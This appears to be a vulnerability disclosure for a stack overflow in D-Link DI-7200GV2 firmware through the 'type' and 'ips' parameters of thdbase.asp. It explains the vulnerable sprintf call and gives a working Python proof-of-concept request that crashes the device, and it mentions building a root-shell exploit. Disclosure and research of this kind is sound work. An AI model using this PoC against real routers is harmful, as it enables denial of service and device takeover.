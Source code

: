 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameters type and ips in the thdbase.asp function.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
First, set the nvram values of fbr_type and fbr_ips in the jhttpd binary at function sub_45B32C() via thdbase.asp.
![Alt text](1.png)  
Then, the function thdbase_data() retrives the values of 'fbr_type' and 'fbr_ip' from nvram.Finally,the value of 'fbr_type' and 'fbr_ip' from nvram are concatenated to the sprintf function, which leads to a buffer overflow vulnerability.  
![Alt text](2.png)

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  
![Alt text](3.png)
Then,we login in to 192.168.0.1.  
![Alt text](4.png) 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/thdbase.asp"

params = {
    "type": "a"*0x14000,
    "ips": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.